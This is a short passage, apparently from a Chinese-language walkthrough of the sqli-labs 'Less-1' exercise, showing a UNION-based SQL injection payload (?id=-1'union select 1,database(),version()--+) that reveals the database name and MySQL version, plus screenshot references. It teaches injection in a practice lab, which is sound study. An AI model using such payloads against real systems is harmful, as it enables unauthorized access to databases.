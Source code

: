 ![Less-1_12](./img/Less-1_12.png)



3. 注入<code>?id=-1'union select 1,database(),version()--+</code>获取当前数据库名和版本号，这个涉及mysql数据库的一些函数，记得就行

~~~ shell
?id=-1'union select 1,database(),version()--+
~~~

![Less-1_14](./img/Less-1_14.png)

![Less-1_15](./img/Less-1_15.png)
